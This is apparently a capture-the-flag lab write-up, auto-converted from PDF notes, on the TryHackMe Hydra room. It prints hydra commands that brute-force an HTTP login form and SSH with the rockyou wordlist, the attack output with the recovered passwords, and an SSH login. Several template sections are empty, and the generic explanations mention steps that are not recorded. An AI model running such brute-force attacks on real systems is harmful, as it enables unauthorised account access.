

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | web, ssh attack path to foothold |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---
## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (not recorded in PDF)

```

## Nmap
```

### Not implemented (not recorded in PDF)

```

### 2. Local Shell

---

PDFメモから抽出した主要コマンドと要点を整理しています。必要に応じて後続で詳細追記してください。

### 実行コマンド（抽出）
```
hydra
hydra -l molly -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
hydra -l molly -P /usr/share/wordlists/rockyou.txt $ip ssh
ssh molly@$ip
```

### 抽出画像

画像抽出なし（PDF内に有効な埋め込み画像なし）

### 抽出メモ（先頭120行）
```
hydra
July 19, 2023 1:11

#1
Break through the website login form
┌──(n0z0㉿galatea)-[~/work/thm/hydra]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal
purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-19 00:58:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.191.239:80/login:username=^USER^&password=^PASS^:F=incorrect
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "654321" - 17 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "michael" - 18 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "ashley" - 19 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "qwerty" - 20 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "111111" - 21 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "iloveu" - 22 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "000000" - 23 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "michelle" - 24 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "tigger" - 25 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "sunshine" - 26 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "chocolate" - 27 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "password1" - 28 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "soccer" - 29 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "anthony" - 30 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "friends" - 31 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "butterfly" - 32 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "purple" - 33 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "angel" - 34 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "jordan" - 35 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "liverpool" - 36 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "justin" - 37 of 14344399 [child 3] (0/0)
OneNote
1/3
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "loveme" - 38 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "fuckyou" - 39 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "123123" - 40 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "football" - 41 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "secret" - 42 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "andrea" - 43 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "carlos" - 44 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "jennifer" - 45 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "joshua" - 46 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "bubbles" - 47 of 14344399 [child 15] (0/0)
[80][http-post-form] host: 10.10.191.239   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-19 00:58:16
#2
ssh brute force
┌──(n0z0㉿galatea)-[~/work/thm/hydra]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt $ip ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal
purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-19 00:59:50
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.191.239:22/
[22][ssh] host: 10.10.191.239   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-19 01:00:04
#3
Connect via ssh
┌──(n0z0㉿galatea)-[~/work/thm/hydra]
└─$ ssh molly@$ip
The authenticity of host '10.10.191.239 (10.10.191.239)' can't be established.
ED25519 key fingerprint is SHA256:o25OvvDnTHQn6/0YC3jvtmTZGtm2mJC5oLo+FE+2LFw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.191.239' (ED25519) to the list of known hosts.
molly@10.10.191.239's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)
* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage
65 packages can be updated.
32 updates are security updates.
Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-10-191-239:~$
molly@ip-10-10-191-239:~$
molly@ip-10-10-191-239:~$ ls -la
OneNote
2/3
OneNote
3/3
```

### Not implemented (not recorded in PDF)

```

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

Privilege elevation related commands extracted from PDF memo.

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
┌──(n0z0㉿galatea)-[~/work/thm/hydra]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-19 00:58:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.191.239:80/login:username=^USER^&password=^PASS^:F=incorrect
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.191.239 - login "molly" - pass "password1" - 28 of 14344399 [child 10] (0/0)
2026/02/27 18:46
[80][http-post-form] host: 10.10.191.239   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-19 00:58:16
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt $ip ssh
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-19 00:59:50
[22][ssh] host: 10.10.191.239   login: molly   password: butterfly
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-19 01:00:04
ED25519 key fingerprint is SHA256:o25OvvDnTHQn6/0YC3jvtmTZGtm2mJC5oLo+FE+2LFw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
molly@10.10.191.239's password:
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- hydra
- ssh
- GTFOBins
